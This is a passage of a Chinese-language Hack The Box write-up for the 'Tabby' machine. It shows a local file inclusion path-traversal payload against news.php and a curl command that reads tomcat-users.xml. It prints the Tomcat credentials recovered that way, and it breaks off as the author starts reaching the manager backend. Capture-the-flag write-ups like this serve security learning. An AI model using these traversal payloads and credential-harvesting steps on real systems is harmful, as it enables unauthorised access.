 ```


```conf```文件夹应该跟```webapps```在同一级，但是浏览器上一直无法回显。。。


查看本地tomcat9，好像没啥文件有读权限的。

## curl


后来看论坛提示，要直接用```apt install tomcat9```安装

查看```tomcat-users.xml```位置

```
┌──(root💀kali)-[~/htb/Tabby]
└─# find / -name tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml

```

```/etc/tomcat9/tomcat-users.xml ```普通用户没有读取权限
```
┌──(root💀kali)-[~/htb/Tabby]
└─# ls -alh /etc/tomcat9/tomcat-users.xml           
-rw-r----- 1 root tomcat 2.7K 11月 10 03:15 /etc/tomcat9/tomcat-users.xml

```

但是```/usr/share/tomcat9/etc/tomcat-users.xml```普通用户是可读的
```
┌──(root💀kali)-[~/htb/Tabby]
└─# ls -alh /usr/share/tomcat9/etc/tomcat-users.xml 
-rw-r--r-- 1 root root 2.7K 11月 10 03:15 /usr/share/tomcat9/etc/tomcat-users.xml

```

使用paylaod```http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml```用网页打开，需要打开网页源代码才能显示配置

但是用curl可以马上回显

```curl -X GET -H 'Content-type:text/xml'  http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml```

tomcat-users.xml配置信息
```
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

得到一个tomcat的后台账号：```tomcat:$3cureP4s5w0rd123!```


然而这个权限只是```admin-gui```和```manager-script```,不是```manager-gui```,因此我们无法打开manger页面，无法使用exp

但是后来发现使用 curl是可以访问到manager的后台文件的

```
┌──(root💀kali)-[~/htb/Tabby]
